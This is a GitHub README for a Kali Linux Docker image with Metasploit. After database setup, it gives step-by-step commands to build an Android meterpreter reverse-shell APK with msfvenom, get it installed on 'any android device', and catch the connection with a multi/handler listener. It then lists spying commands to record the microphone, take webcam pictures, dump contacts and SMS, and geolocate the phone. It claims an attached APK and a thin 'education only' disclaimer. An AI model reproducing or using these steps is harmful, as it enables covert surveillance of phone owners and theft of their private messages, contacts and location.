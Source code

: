 ## kalilinux-metaspolite ;-

![](https://www.kali.org/wp-content/uploads/2015/05/kali-linux-docker-images-798x284.png)
###### The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing.

##### Original link [Docker link](https://hub.docker.com/r/vinothssv/kalilinuxmetaspolite/)

###### This container which has pre-installed PostgreSQL with metaspolite to start metaspolite please follow the below steps,
##### Lets started

> Step:1:- check postgreSQL status

    root@66c2d91b9c26:~# service postgresql status
    9.6/main (port 5432): online
    root@66c2d91b9c26:~#

###### If the container in stopped stage make it as start and running. once the postgresql is started then initialise Metasploit PostgreSQL Database

    #msfdb init

###### Once started, type below command.

    #msfconsole

###### After we logged in to the msf console check whether the database are connected to metaspolite

    msf > db_status
    [*] postgresql connected to msf3
    msf >

###### that's it. metaspolite will now working...
###### For download use below command,

    docker pull vinothssv/kalilinuxmetaspolite:version1.0
 
##### after download above container we need to start and run with some allowed ports. 
###### check the image is downloaded,

    [root@srv ~]# docker images
    REPOSITORY                        TAG                 IMAGE ID            CREATED             SIZE
    kalilinux.p                       latest              4d661b0b07ad        6 days ago          1.417 GB
    
once the image is listed, 

     docker run -it --name kaliports -p 4444:4444 -p 445:445 kalilinux.p /bin/bash
        
after we enter into the container provide the following command to create android file to explose

    root@b7152906b2a6:/# msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.123 LPORT=4444 R > /var/android.apk

After that apk has created we need to make install it to any android device and then get into the msfconsole.
    msfconsole
    
        #once we get into the msfconsole we need to check whether the database is connected or not. by below given command.
        
    msf > db_status
    [*] postgresql selected, no connection
    msf >

Once everything perfect we can start hacking..
    
    msf > use multi/handler 
    msf > set PAYLOAD android/meterpreter/reverse_tcp #payload for android
    msf > set LHOST 192.168.1.4   #android ip
    msf > set LPORT 4444 #localhost allowed port.
    msf > exploit

after it get connected with android we can give the following commands to collect the information in android mobile.
    
        ---- OTHER COMMANDS ----
    - record_mic (record audio) 
    - webcam_snap (Take a Picture) 
    - webcam_stream (Stream Camera) 
    - dump_contacts (CALL LOGS!) 
    - dump_sms (SMS LOGS!)
    - geolocate (Track Device)

Here, i have attached android.apk Please do this your own risk.

### Its tutorial only for education purpose only.
